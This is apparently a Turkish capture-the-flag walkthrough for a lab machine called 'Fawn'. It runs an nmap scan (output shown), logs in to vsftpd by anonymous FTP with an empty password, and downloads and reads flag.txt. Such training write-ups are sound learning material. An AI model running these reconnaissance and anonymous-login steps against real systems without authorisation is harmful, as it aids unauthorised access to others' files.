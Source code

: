 ```yaml
---
search:
  boost: 0.5
---
```


# Fawn

!!! info "Target IP Address"

    10.129.25.41

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.25.41 -sV
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 22:58 +03
Nmap scan report for 10.129.25.41
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```

FTP bağlantısı gerçekleştir ve `anonymous` kullanıcısı olarak giriş yap. Parola sorulduğunda boş parola gir:

```bash
ftp 10.129.25.41
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
